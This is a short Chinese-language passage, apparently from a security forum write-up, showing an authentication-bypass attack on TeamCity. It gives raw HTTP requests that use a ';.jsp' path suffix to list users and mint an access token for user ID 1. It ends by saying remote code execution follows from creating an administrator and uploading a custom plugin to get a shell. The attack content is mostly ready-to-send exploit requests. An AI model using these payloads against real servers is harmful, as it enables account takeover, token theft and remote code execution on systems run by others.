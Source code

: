![image-20240309181820733](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-cb7b608a6db75763fac5cba9c179158486d47b7e.png)

获取用户列表

```http
GET /xxx?jsp=/app/rest/users;.jsp HTTP/1.1  
Host:   
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36  
Accept: \*/\*  
Content-Type: application/json  
Accept-Encoding: gzip, deflate
```

![image-20240309181839486](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-bafef83bf8290f125981c0f77252d04a64bdfe57.png)

根据用户ID,获取用户token

```http
GET /xxx?jsp=/app/rest/users/id:1/tokens/HaxorToken;.jsp HTTP/1.1  
Host:   
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36  
Accept: \*/\*  
Content-Type: application/json  
Accept-Encoding: gzip, deflate
```

![image-20240309182051947](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-91bd23a2499025d6f8704b130c2f01360925a122.png)

...

要实现RCE，就要通过第一个payload创建一个管理员用户，然后进到系统里面利用TeamCity的插件功能，上传自己写的插件进行getshell

END
---